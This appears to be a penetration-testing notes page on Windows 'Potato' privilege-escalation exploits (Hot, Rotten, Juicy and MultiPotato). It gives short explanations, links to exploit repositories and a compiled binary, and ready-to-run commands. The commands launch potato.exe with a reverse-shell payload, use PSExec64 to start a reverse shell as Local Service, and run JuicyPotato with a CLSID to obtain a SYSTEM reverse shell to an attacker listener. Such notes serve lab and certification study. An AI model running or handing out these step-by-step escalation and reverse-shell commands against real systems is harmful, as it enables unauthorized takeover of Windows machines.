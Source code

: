 # Potatos

## <mark style="color:red;">Hot Potato</mark>

Hot Potato is the name of an attack that uses a spoofing attack along with an NTLM relay attack to gain SYSTEM privileges. The attack tricks Windows into authenticating as the SYSTEM user to a fake HTTP server using NTLM. The NTLM credentials then get relayed to SMB in order to gain command execution. This attack works on Windows 7, 8, early versions of Windows 10, and their server counterparts.

{% hint style="info" %}
These steps are for Windows 7, newer versions of windows 10 is not vulnerable.
{% endhint %}

the exploit can be found here:

{% embed url="https://github.com/Kevin-Robertson/Tater" %}

and here is the compiled binary exploit:

{% file src="../../../.gitbook/assets/potato.exe" %}

Run the exploit with your custom reverse shell:

```
potato.exe -ip 192.168.1.33 -cmd "C:\PrivEsc\reverse.exe" - enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true
```

Wait for a Windows Defender update, or trigger one manually.

Unfortunately, multiple problems have been found with service accounts, making them easier to escalate privileges with.

## <mark style="color:red;">Rotten Potato</mark>

The original Rotten Potato exploit was identified in 2016. Service accounts could intercept a SYSTEM ticket and use it to impersonate the SYSTEM user. This was possible because service accounts usually have the “SeImpersonatePrivilege” privilege enabled

## <mark style="color:red;">Juicy Potato</mark>

Rotten Potato was quite a limited exploit. Juicy Potato works in the same way as Rotten Potato, but the authors did extensive research and found many more ways to exploit.

{% embed url="https://github.com/ohpe/juicy-potato" %}

{% hint style="info" %}
These steps are for Windows 7, newer versions of windows 10 is not vulnerable
{% endhint %}

Copy PSExec64.exe and the JuicyPotato.exe exploit executable over to Windows and start a listener.

Using an administrator command prompt, use PSExec64.exe to trigger a reverse shell running as the Local Service service account:

```powershell
PSExec64.exe -i -u "ntauthority\local service" reverse.exe
```

Start another listener on Kali

Now run the JuicyPotato exploit to trigger a reverse shell running with SYSTEM privileges:

```
PrivEsc\JuicyPotato.exe -l 1337 -p reverse.exe  -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
```

{% hint style="info" %}
If the CLSID ({03ca...) doesn’t work for you, either check this list:

[https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md)

or run the GetCLSID.ps1 PowerShell script.
{% endhint %}

## <mark style="color:red;">MultiPotato</mark>

{% embed url="https://github.com/S3cur3Th1sSh1t/MultiPotato" %}
